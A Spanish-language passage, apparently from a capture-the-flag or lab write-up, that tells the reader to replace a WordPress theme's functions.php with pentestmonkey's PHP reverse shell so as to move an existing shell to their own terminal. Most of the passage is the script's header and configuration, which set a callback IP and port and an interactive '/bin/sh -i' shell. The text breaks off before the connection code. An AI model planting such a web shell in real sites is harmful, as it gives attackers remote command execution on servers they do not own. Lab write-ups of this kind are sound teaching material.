 Ahhora que ya tenemos una shell, vamos a intentar trasladarla a nuestra terminal. Para ello sustituiremos el siguiente código php en el archivo `functions.php` del tema `Twenty Twenty.Four: Theme Functions`.
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.18.0.1';  // CHANGE THIS
$port = 6969;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
```